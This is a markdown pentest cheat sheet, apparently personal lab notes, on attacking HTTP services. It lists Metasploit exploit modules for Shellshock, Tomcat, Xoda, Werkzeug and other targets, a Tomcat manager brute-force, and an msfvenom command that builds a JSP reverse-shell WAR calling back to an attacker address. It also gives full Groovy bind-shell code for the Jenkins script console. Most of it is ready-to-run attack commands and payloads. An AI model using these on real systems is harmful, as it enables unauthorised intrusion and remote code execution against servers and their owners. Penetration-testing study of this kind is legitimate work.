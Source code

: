 # HTTP 

- port:80
- Example services: Apache httpd 2.4.6 
- apache default data storage location - /var/www
- run dirb on url

## Metasploit
- shellshock vuln - exploit/multi/http/apache_mod_cgi_bash_env_exec
	- nmap --script http-shellshock --script-args “http-shellshock.uri=/gettime.cgi” 192.242.220.3
	![http-shellshock script output](./images/http-01.png)

- xoda file upload vuln - exploit/unix/webapp/xoda_file_upload - set TARGETURI /
- exploit/unix/http/xdebug_unauth_exec : to exploit apache httpd 2.4.7
- exploit/multi/http/glassfish_deployer
- exploit/multi/http/tomcat_jsp_upload_bypass (apache tomcat v8.5.19 is vuln)
	- check
- exploit/unix/webapp/xoda_file_upload
- exploit/linux/http/vcms_upload
- exploit/multi/http/werkzeug_debug_rce
- auxiliary/scanner/http/tomcat_mgr_login : brute-force on apache tomcat/ jsp engine 1.1 - if /manager url is available
	- msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.73.96.2 LPORT=443 -f war > shell.war file shell.war
	- upload it and deploy then access on webbrowser while having a listener opened
- jenkins can be exploited using its dashboard > manage jenkins > script console
	- groovy shellcode to create a bind shell-
		int port=5555;
		String cmd="/bin/bash";
		Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start()
		Socket s = new java.net.ServerSocket(port).accept()
		InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
		OutputStream po=p.getOutputStream(),so=s.getOutputStream();
		while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
	- ref : https://dzmitry-savitski.github.io/2018/03/groovy-reverse-and-bind-shell
	![proxychains output](./images/http-02.png)
	![exploitation success output](./images/http-03.png)
